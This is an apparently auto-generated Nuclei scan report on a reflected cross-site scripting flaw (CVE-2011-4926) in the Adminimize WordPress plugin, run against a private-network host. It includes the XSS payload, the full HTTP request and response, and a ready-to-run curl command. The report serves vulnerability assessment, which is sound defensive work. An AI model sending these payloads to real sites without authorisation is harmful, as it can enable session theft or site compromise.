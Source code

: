 ### Adminimize 1.7.22 - Reflected Cross-Site Scripting (CVE-2011-4926) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2011-4926**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/adminimize/adminimize_page.php?page=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:03 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Adminimize 1.7.22 - Reflected Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2011, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | A cross-site scripting vulnerability in adminimize/adminimize_page.php in the Adminimize plugin before 1.7.22 for WordPress allows remote attackers to inject arbitrary web script or HTML via the page parameter. |
| CVE-ID | [CVE-2011-4926](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2011-4926) |
| CVSS-Score | 0.00 |

**Request**
```http
GET /wp-content/plugins/adminimize/adminimize_page.php?page=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 245
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/adminimize/adminimize_page.php?page=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2011-4926
- https://www.whitesourcesoftware.com/vulnerability-database/cve-2011-4926
- http://plugins.trac.wordpress.org/changeset?reponame=&new=467338@adminimize&old=466900@adminimize#file5
- http://www.openwall.com/lists/oss-security/2012/01/10/9

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/adminimize/adminimize_page.php?page=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)